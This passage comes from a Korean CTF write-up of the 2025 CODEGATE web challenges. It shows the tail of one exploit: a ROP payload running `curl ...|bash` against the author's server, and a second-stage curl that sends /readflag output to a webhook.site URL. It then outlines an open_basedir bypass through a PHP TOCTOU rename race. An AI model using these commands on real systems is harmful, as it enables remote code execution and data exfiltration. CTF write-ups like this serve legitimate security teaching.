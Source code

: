 ```python
resp = session.put(URL + f'/api/answers/{answer_id}', data=body, headers=headers)
print(resp.status_code, resp.text)

```

`fd`번호는 내 환경의 경우엔 12번에 가능했다. 그리고 ROP chain에서 chain size가 한정되어 있기 때문에 최소한의 페이로드 길이로 쉘을 실행하도록 구성하였다.

이를 위해 다음 명령어를 사용하였다.

```bash
curl [https://predo.run.goorm.site|bash](https://predo.run.goorm.site%7Cbash)
```

해당 명령어는 내 서버에서 전달되는 응답을 그대로 bash로 실행하게 한다.

또한 내 서버에는 다음과 같은 명령어를 올려두었다.

```bash
curl -k "[https://webhook.site/c9b79407-0e3d-41ce-a5bd-ccd1ba099ef0?q=$(/](https://webhook.site/c9b79407-0e3d-41ce-a5bd-ccd1ba099ef0?q=$(/readflag*)%5C%5C)readflag*|python3 -c 'import sys, urlib.parse; print(urlib.parse.quote(sys.stdin.read()))')"
```

이렇게 하면 대상 서버가 내 서버로 접속하여 `curl` 을 실행하면서, `/readflag*` 의 결과값을 URL encoding한 뒤 그대로 전달하게 된다.

특히, flag에 띄어쓰기가 포함되어 있을 경우 정상적으로 전송되지 않는 문제가 발생할 수 있으므로, Python의 `urllib.parse.quote` 를 활용하여 flag 값을 URL인코딩한 뒤 넘기도록 처리하였다.

![FLAG 획득](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2035.png)

FLAG 획득

# [WEB] gravelbox

## TL;DR

이 챌린지는 PHP의 **open_basedir** 제한을 우회하여 `/flag.txt`를 읽어내는 챌린지이다. PHP 8.4 환경에서 `eval` 함수를 통해 임의 코드 실행이 가능하지만, `open_basedir=/var/www/html:/tmp` 설정으로 인해 허용된 디렉토리 외부의 파일에 접근할 수 없다.

과거에는 curl extension, glob protocol, symlink 등 다양한 우회 기법이 존재했지만 현재는 모두 패치되어 사용할 수 없다. 이 문제는 PHP의 `expand_filepath()` 함수에서 발생하는 TOCTOU(Time-of-Check-Time-of-Use) 취약점을 이용하여 해결할 수 있다.

공격의 핵심은 두 프로세스 간 경쟁 상태를 만드는 것이다. 한 프로세스에서는 `file_get_contents("../../flag.txt")`를 반복 호출하고, 다른 프로세스에서는 디렉토리 `rename` 작업을 반복 수행한다. 이때 경로 해석 시점과 `open_basedir` 검증 시점 사이의 시간차를 악용하여 제한된 디렉토리 외부에 있는 flag 파일에 성공적으로 접근할 수 있다.

## Overview

전형적인 고난도 PHP 챌린지의 특징을 보여주는 **One Line PHP Challenge**이다.

```php
<?php
@$_GET['key'] === (getenv('TEAM_KEY') ?? random_bytes(16)) ? eval(@$_GET['code']) : show_source(__FILE__);
```
